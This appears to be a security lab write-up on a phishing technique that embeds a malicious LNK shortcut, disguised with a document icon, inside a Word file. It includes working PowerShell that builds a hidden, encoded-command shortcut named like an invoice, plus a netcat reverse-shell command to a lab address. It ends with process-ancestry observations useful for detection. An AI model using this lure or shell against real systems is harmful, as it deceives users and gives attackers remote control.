








# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files and camouflage them with Ms Word office icon in .doc files to deceive victims to click the embedded file. Once clicked, the embedded file executes the malicious payload.

## Weaponization

Creating an .LNK file that will trigger the payload once executed:



```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```



Powershell payload will trigger a rudimentary NC reverse shell:



```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```



Once the above powershell script is executed, an `.LNK` shortcut is created:



Let's create a Word document that will contain the malicious shortcut that was created in the previous step:



Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:





Point the package to the .lnk file containing the payload:



Final result:



## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:



Confirms execution - note how the reverse shell came back to the attacker:



## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell, etc.:


Soon after, the powershell gets killed and cmd.exe becomes an orphan:








[https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf](https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf)

